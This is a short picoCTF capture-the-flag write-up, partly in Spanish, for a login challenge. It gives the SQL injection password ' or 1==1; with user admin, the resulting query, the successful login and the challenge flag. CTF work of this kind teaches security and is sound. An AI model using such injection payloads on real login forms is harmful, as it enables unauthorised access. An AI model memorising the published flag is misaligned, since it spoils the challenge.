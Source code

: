 # Retos PicoCTF


## Objetivo 

There is a website running at https://jupiter.challenges.picoctf.org/problem/33850/ (link) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Solución 

```
Se utiliza 'or 1==1;  en la password ya que se esta haciendo una sentencia SQL y esto hace que de True
username: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'
Logged in!
Your flag is: picoCTF{s0m3_SQL_f8adf3fb}

```

## Notas adicionales 
There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

Try to think about how the website verifies your login.
## Referencias 
